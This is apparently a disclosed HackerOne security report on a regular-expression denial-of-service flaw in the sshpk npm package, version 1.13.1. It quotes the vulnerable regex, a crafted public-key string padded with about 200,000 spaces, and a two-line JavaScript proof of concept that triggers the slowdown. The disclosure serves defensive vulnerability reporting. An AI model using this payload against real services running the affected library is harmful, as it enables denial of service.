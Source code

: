 # `sshpk` is vulnerable to ReDoS when parsing crafted invalid public keys

## Report Details
- **Report ID**: 319593
- **URL**: https://hackerone.com/reports/319593
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-25T19:14:42.891Z
- **Disclosed**: 2018-04-04T21:26:06.821Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a ReDoS in `sshpk`
It allows to cause Denial of Service by trying to parse a crafted public key.

# Module

**module name:** sshpk
**version:** 1.13.1
**npm page:** `https://www.npmjs.com/package/sshpk`

## Module Description

> Parse, convert, fingerprint and use SSH keys (both public and private) in pure node -- no ssh-keygen or other external dependencies.

## Module Stats

320 485 downloads in the last day
4 709 033 downloads in the last week
19 365 516 downloads in the last month

~232 386 192 estimated downloads per year

# Vulnerability

## Vulnerability Description

ReDoS.

- regex: /^([a-z0-9-]+)[ \t]+([a-zA-Z0-9+\/]+[=]*)([\n \t]+([^\n]+))?$/
- evil string: `ssh-rsa a${Array(200000).join(' ')}x\nx` (~200 KB, unwrap js template string)
- file: https://github.com/joyent/node-sshpk/blob/v1.13.1/lib/formats/ssh.js#L17

The testcase uses ~200 KB string to demonstrate long unavailability period, but parsing is also considerably slow on shorter strings.

## Steps To Reproduce:

```js
var keyPub = `ssh-rsa a${Array(200000).join(' ')}x\nx`;
var key = require('sshpk').parseKey(keyPub, 'ssh');
```

## Supporting Material/References:

- Arch Linux Current
- Node.js 9.5.0
- npm 5.6.0

# Wrap up

- I contacted the maintainer to let him know: N 
- I opened an issue in the related repository: N

## Impact

Cause denial of service by parsing a crafted public key file.

## Attachments
No attachments
